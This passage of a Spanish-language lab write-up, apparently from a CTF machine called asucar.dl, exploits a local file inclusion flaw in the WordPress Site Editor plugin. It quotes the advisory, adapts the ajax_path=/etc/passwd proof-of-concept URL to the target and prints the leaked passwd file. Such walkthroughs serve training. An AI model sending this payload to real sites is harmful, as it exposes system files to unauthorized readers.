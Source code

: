 ```bash
https://plugins.trac.wordpress.org/browser/site-editor/trunk/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?rev=1640500#L5

By providing a specially crafted path to the vulnerable parameter, a remote attacker can retrieve the contents of sensitive files on the local system.

** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

** Solution **
No fix available yet.
```

## Explotacion de Vulnerabilidades
Usaremos esta linea:
```bash
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

Asi queda ya adaptada a nuestro objetivo:
```bash
http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

Ahora que lo ejecutamos logramos obtener el contenido del archivo **passwd**:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
curiosito:x:1000:1000::/home/curiosito:/bin/bash
{"success":true,"data":{"output":[]}}
```

